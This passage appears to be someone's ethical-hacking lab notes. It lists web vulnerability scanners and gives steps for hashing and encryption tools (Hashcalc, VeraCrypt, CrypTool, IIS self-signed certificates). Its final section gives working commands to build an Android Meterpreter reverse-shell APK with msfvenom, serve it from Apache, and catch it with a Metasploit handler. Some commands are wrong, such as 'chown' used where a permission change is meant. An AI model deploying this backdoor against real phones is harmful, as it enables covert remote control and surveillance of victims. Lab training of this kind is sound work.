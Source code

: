 4) Vega 
	1) Add IP see the vuln
5) Acutenix
	1) Vuln Scanner
## Cryptography

1) **Hashcalc**
	1) calculating the hash of a  particular file -> Data format ->  File  ->  upload the file then check the hash
	2) either check the SHA1 Hash of a text enter the text in the field or upload the file
2) **MD5 calculator**
	1) Calculating MD5 Hashes
3) **BCTextEncoder**
	1) enter the text and encode and enter the passphrase
	2) then click decode and then enter the passphrase and done
4) **creating and using self signed certificates**
	1) go windows administrative tools
	2) then IIS manager
	3) click  server certificate add one name
	4) then go to the website in connections then binding on the right side then add the hostname and set port to 443 then add certificate and done
5) **Veracrypt**
	1) For Encrypting
		1) open VC then create new volume
		2) create encrypted file container
		3) Standart veracrypt volume
		4) select a file creata folder on desktop
		5) select the folder size and then enter the password
	2) For Decrypting
		1) select the folder and select a drive
		2) click mount
		3) enter the password
6) **Cryptool**
	1) For Encrypting
		1) open file -> type something
		2) click encrypt/decrypt choose symmetric encryption > RC2 > 8 bits > 05 > click encrypt  > save the file
	2) For Decrypting
		1) open the tool > drag the file
		2) choose the appropriate settings > decrypt

## Hacking Mobile Applications

1) Creating binary payloads to hack kali linux
	1) creating server and testing devices located in the network which are prone to attacks
	2)  Attacking the device using simple backdoor and monitor the system activity
2)  In the machine click the device menu go the terminal emulator press su to get root
3) type ip addr 10.10.10.69/24 dev eth0 to add the ip
4) open Kali
	1)  service postgresql start
	2) msfvenom -l to view all the payloads
	3) to generate a reverse android payload use the command `msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=kali_IP R > Desktop/Backdoor.apk`
	4) create a folder ` mkdir /var/www/html/share`
	5) change file perms of the folder to 755 using the command **chown  -R 755 /var/www/html/share**
	6) change the ownership of the folder to www-data by **chown -R www-data:www-data /var/html/share**
	7)  **cp /root/Desktop/backdoor.apk /var/www/html/share**
	8)  service apache2 start
	9) open metasploit start listener **use exploit/multi/handler** set payload **android/meterpreter/reverse_tcp**
	10) set lhost to kali IP add
	11) exploit -j -z
5) go to the android emulator open browser type `http://kali_IP/share`